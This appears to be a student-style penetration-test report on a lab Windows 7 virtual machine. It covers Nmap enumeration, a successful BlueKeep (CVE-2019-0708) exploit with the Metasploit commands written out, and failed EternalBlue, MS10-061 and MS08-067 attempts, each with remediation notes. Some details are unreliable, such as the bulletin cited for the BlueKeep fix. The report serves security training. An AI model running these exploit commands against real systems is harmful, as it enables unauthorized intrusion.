









Nicolaus Watson, Breanna Taylor, Kevin Hoang, Andrew Carroll and Tommy S Taylor all worked on this together
============================================================================================

3.2 Penetration
---------------

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, I was able to successfully gain access to 1 out of the 1 systems.

There is 1 system provide and I have gain access to and have the permission of each user and have highest level of privillage,

Part1: Stagging:

### System IP: 192.168. ()

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems. This is valuable for an attacker as it provides detailed information on potential attack vectors into a system. Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.  In some cases, some ports may not be listed.

Target System IP:

I confirmed the target system's IP address by matching the MAC address from the VirtualBox settings with the MAC address found in the netdiscover scan.

10.0.2.4 is our target machine.

|  |  |
| --- | --- |
| Server IP Address | Ports Open |
| 10.0.2.4 | TCP:  |
| UDP:  |

Nmap Scan Results:

1. Port Scanning with Nmap:

Begin by scanning the target to identify open ports and running services. 

The -sV flag attempts to identify service versions running on open ports.

2. Full Scan:

For a more thorough scan, you can perform a full range TCP scan with service and version detection.

The -p- flag tells Nmap to scan all 65535 ports, and -T4 speeds up the scan.

3. Vulnerability Scanning with Nmap Scripts:

This command run all Nmap scripts categorized as vulnerability checks against the target.

5. Banner Grabbing with Nmap:

I have used Nmap to grab service banners, which reveal software versions and configurations.

During my Nmap scanning, I discovered a number of possible vulnerabilities on the target system. I discovered, for SSL (Diffie-Hellman), a DH key exchange issue marked as vulnerable; hence, it implies the use of a poor DH group. This might leak the encrypted communication to passive eavesdropping or man-in-the-middle attacks. I have also noticed a few vulnerable SMB-related services in the "\_smb-vuln-ms10-054, \_smb-vuln-ms10-061" statuses. However, these were reported as 'false' or 'access denied', hence meaning that further probing is nearly 100% necessary, as attackers often target SMB.

As for weaknesses exploitable, I would point at the open ports related to Microsoft RPC—135/tcp and from 49152 to 49158/tcp, which might be open for any unauthorized remote procedure calls. I have also been able to identify port 139/tcp and port 445/tcp, related to NetBIOS and Microsoft Directory Services, respectively. Both are known targets for exploits, like EternalBlue, and could be used in SMB Relay attacks if SMB signing is not in place. The RDP service on port 3389/tcp, if not configured securely, might permit an attacker to perform remote logins. Last but not least, it has been identified that an HTTP service, associated with Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP), could be exploited given an outdated or misconfigured state of the service.

Initial Shell Vulnerability Exploited  

The initial shell was obtained by exploiting the CVE-2019-0708 vulnerability, also known as BlueKeep, in the Remote Desktop Protocol (RDP) service on a Windows 7 target system using Metasploit.

Additional info about where the initial shell was acquired from

Vulnerability Explanation: CVE-2019-0708 is an out-of-band security vulnerability in the Remote Desktop Services (RDS)—formerly Terminal Services—service implementation because an RDP 8.0 service, which is handling incoming connection requests from RDP clients seeking to share the user's desktop, does not properly manage a request packet.

Remediation: The following is the remedy for the identified vulnerability: Fix the vulnerability with the security update from Microsoft. Note: In Microsoft Security Bulletin MS19-070, point to the update to be applied.

Severity: Critical, due to the potential for unauthenticated attackers to execute arbitrary code on the target system.

Proof of Concept Code Here: 

use exploit/windows/rdp/cve\_2019\_0708\_bluekeep\_rce

set RHOSTS 10.0.2.4

set LHOST 10.0.2.15

set TARGET 2

exploit

Initial Shell Screenshot:

#### Privilege Escalation :

Not necessary as the Meterpreter session was obtained with SYSTEM privileges, indicating the highest level of privilege on a Windows operating system.

Additional Priv Esc info

Vulnerability Exploited: Not applicable as the initial exploit provided SYSTEM level access.

Vulnerability Explanation: N/A

Vulnerability Fix: N/A

Severity: N/A

Exploit Code: N/A

Proof Screenshot Here: N/A

Proof.txt Contents: N/A

---

### 

### System IP: 192.168. ()

#### Service Enumeration

MS10-061 Printer Spooler

|  |  |
| --- | --- |
| Server IP Address | Ports Open |
| 10.0.2.4 | TCP:  |
| UDP:  |

Vulnerability Explanation: This vulnerability occurs because the RPC service in the Windows Print Spooler service incorrectly handles RPC requests. A remote attacker can successfully exploit this issue to execute arbitrary code on the target system with system privileges. This vulnerability has been associated with Stuxnet.

Attempt to exploit: I have tried to exploit this vulnerability with the Metasploit module exploit/windows/smb/ms10\_061\_spoolss. The module is designed to exploit this vulnerability by sending an RPC request that would give way for the triggering of a stack overflow, allowing executing arbitrary code.

Result: The exploitation attempt was not successful.

Possible Reasons for Failure: Exploit probably did not work since the target system was apparently successfully patched to fix this vulnerability. Also, the configuration of the exploit may have been inappropriate with the target environment, or the security may be deployed, such as a firewall or intrusion detection system, not allowing the attack.

Future actions: I would consider going ahead to carry out more in-depth reconnaissance in an effort to ascertain the patch level of the target system. Once this is established, then determine alternative exploit or methods of delivering the payload.

Initial Shell Screenshot:

|  |  |
| --- | --- |
| Server IP Address | Ports Open |
| 10.0.2.4 | TCP:  |
| UDP:  |

Vulnerability: MS17-010 EternalBlue

Vulnerability Explanation: The vulnerability exists in the way the Microsoft Server Message Block 1.0 (SMBv1) server handles some requests. For instance, in this case, it can be said that an attacker would have gotten his way with the compromise to execute the code on the target server.

Attempted Exploit: I proceeded to try to exploit the exploit/windows/smb/ms17\_010\_eternalblue module with Metasploit. The exploit is a remote code execution vulnerability within

Result: The exploitation attempt was not successful.

Probable reasons for failure: are that the target system gets updated, which patches the vulnerability; wrong settings for the exploit are executed; the network defenses up or the vulnerability not being in that specific system in the first place.

Further actions: The next steps that could be taken are using a vulnerability scanner to figure out if the system is vulnerable to EternalBlue and trying to exploit it from different sides with another payload or on different network conditions.

Initial Shell Screenshot:

Vulnerability: MS08-067 NetAPI

Attempted Exploit: My efforts were directed towards leveraging the exploit/windows/smb/ms08\_067\_netapi module via Metasploit, targeting a flaw in the NetAPI32.dll's path canonicalization code for remote code execution.

Result: The endeavor did not culminate in a successful session creation.

Potential Causes of Failure: The target may have been fortified against this vulnerability through patches, the exploit settings could have been misconfigured, or the target's security measures effectively neutralized the attempt.

Further Steps: It is advisable to thoroughly assess the target's vulnerability by examining its patch status or exploring alternative vulnerabilities for exploitation. Ensuring optimal network conditions for the exploit and verifying the absence of active security countermeasures are also critical steps forward.

Initial Shell Screenshot:

---

